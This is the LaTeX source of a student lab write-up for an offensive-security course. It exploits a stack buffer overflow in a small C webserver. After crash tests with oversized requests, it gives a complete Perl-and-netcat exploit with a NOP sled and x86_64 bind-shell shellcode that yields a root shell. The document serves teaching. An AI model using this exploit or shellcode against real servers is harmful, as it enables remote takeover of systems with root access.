\documentclass[a4paper,11pt,hidelinks]{article}
%\usepackage[a-1b]{pdfx}
\usepackage{hyperref}

\usepackage{subfiles}
\usepackage{epsfig}
\usepackage{plain}
\usepackage{setspace}
%\usepackage{minted}
\usepackage{listings}

\usepackage{mdframed}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathabx}
\usepackage{tcolorbox}
\usepackage{multicol}
\usepackage[english]{babel}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=1.8cm]{geometry}
\usepackage{titlesec} 
\usepackage[utf8x]{inputenc} 

\hypersetup{colorlinks=true, urlcolor=blue}

\captionsetup{
  justification=centering,
  singlelinecheck=false,
  font=small,labelfont=bf,labelsep=space}

\begin{document}

\pagestyle{plain}

\begingroup

\renewcommand{\cleardoublepage}{}
\renewcommand{\clearpage}{}

\titleformat{\section}
{\normalfont\Large\bfseries}{\thesection}{1em}{}


\renewcommand{\lstlistingname}{Code}%
\renewcommand{\lstlistlistingname}{List of \lstlistingname s}

\definecolor{codeBackground}{rgb}{0.9, 0.9, 0.9}

% Code environment
\lstnewenvironment{code}[1]{
  \mdframed[%
    backgroundcolor=codeBackground,
    shadow=false,
    linecolor=black!40,
    linewidth=2pt,
    topline=false,
    rightline=false,
    leftline=false
  ]%
  \lstset{%
    moredelim=**[is][\color{blue}]{**}{**},
    moredelim=**[is][\color{teal}]{.-}{-.},
    moredelim=**[is][\color{gray}]{||}{||},
    frame=single,
    framerule=0pt,
    basicstyle=\ttfamily,
    columns=fullflexible
  }%
}{% Spacing between and after caption + before end of mdframed
  \vspace{-1em}
  \endmdframed
  \vspace{-0.5em}
  \captionsetup{type=lstlisting}
  \caption{#1}
  \vspace{1.5em}
  \ignorespaces
}

\newpage

\title{BOF exercise}
\author{Offensive Technologies 2021 \\
  Matteo Franzil \texttt{<matteo.franzil+github@gmail.com>}}
\maketitle

\section{Solution}

To solve the exercise, I first connected with a regular SSH connection:

\begin{code}{Code for connecting and starting the server.}
ssh otech2af@users.deterlab.net  
ssh server.franzil-pathame.offtech

cd /usr/lib/fhttpd/

sudo make
sudo ./webserver 8080
\end{code}

This time, we don't need GUIs: two shells are sufficient for completing the exercise. In the first, we proceed with compiling the webserver with \verb=sudo make= and starting it with \verb=sudo ./webserver=. We will leave the first shell there, waiting for the output.

In the second shell, we can exploit the vulnerability as easily as sending an arbitrarily large request. Indeed, by inspecting the source code we learn that there are two bounded buffers, set to 1024 bytes each. The first can be found in the \verb=char *get_header()= method, the second in the \verb=int send_response()= method. By further inspecting what these two methods do, we can conclude that we can crash the server either by sending an oversized ($1024+$) path in our GET request, or by sending an oversized header (i.e., \verb=If-Modified-Since= or \verb=Content-Length=).

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{drawable/large-get.png}
  \caption{Exploiting the vulnerability with a 1050-byte-sized payload: the server crashes with a \textit{bad file descriptor} error.}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{drawable/large-get-2.png}
  \caption{Exploiting the vulnerability with a 10000-byte-sized payload: the server crashes with a \textit{segmentation fault} error.}
\end{figure}

\newpage

\section{Shellcode}

It is additionally possible to exploit the vulnerability via injecting shell code in the Content-Length parameter (the path parameter is also vulnerable, although harder to exploit). In order to obtain the necessary parameters for a successful exploitation, I used \verb=gdb= on the \verb=webserver= executable, placing a breakpoint at line \verb=88= in order to learn the address of the \verb=rip= (return instruction pointer) address and gather information about the required number of NOPs. 

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.9\textwidth]{drawable/info-frame.png}
  \caption{Gathering information with \texttt{gdb}.}
\end{figure}


For the shellcode, I used the Python library \verb=pwntools= to generate a proper \verb=x86_64= Linux shellcode that binds a Dash shell to port \verb=8081=. The obtained script looked like this:

\begin{code}{Code for the exploitation.}
  perl -e 'print "POST \/ HTTP\/1.1\r\nContent-Length: " . "\x90"x500
   . "\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x52\xba\x01\x01\x01
  \x01\x81\xf2\x03\x01\x1e\x90\x52\x6a\x10\x5a\x48\x89\xc5\x48\x89\xc7
  \x6a\x31\x58\x48\x89\xe6\x0f\x05\x6a\x32\x58\x48\x89\xef\x6a\x01\x5e
  \x0f\x05\x6a\x2b\x58\x48\x89\xef\x31\xf6\x99\x0f\x05\x48\x89\xc5\x6a
  \x03\x5e\x48\xff\xce\x78\x0b\x56\x6a\x21\x58\x48\x89\xef\x0f\x05\xeb
  \xef\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7
  \x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08
  \x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05" 
  . "\x90"x494 . "\x90\xfb\x5a\xf7\xff\x7f" . "\r\n\r\n"'
   | nc -v -v -q 2 localhost 8082
\end{code}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{drawable/buffer-start-nop.png}
  
\includegraphics[width=0.5\textwidth]{drawable/buffer-mid-nop.png}
  
\includegraphics[width=0.5\textwidth]{drawable/buffer-end-nop.png}
  \caption{Inspecting the shellcode with GDB (start of payload, start of shellcode, end of payload)}
\end{figure}

This code makes a request whose Content-Length header first contains some NOP padding, then the shell code, then some more padding - enough to overflow the buffer and barely touch the \verb=rip= registry - finally, the address of the start of the buffer and two \verb=CRLF=.

After making the request, the now-compromised webserver will spawn a \verb=/bin/dash/= and bind it to port \verb=8081=. We can, again, connect to it with netcat. Once in, we can use \verb=/bin/bash -i= to spawn an interactive shell as root (since the webserver was run as root) and we have full access to everything.

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{drawable/connecting-to-bindshell.png}
  \caption{Connecting to our shell.}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{drawable/executing-new-program.png}
  \caption{What we see on the other side: a new program being executed within the webserver, with \texttt{exec}.}
\end{figure}

\endgroup
\end{document}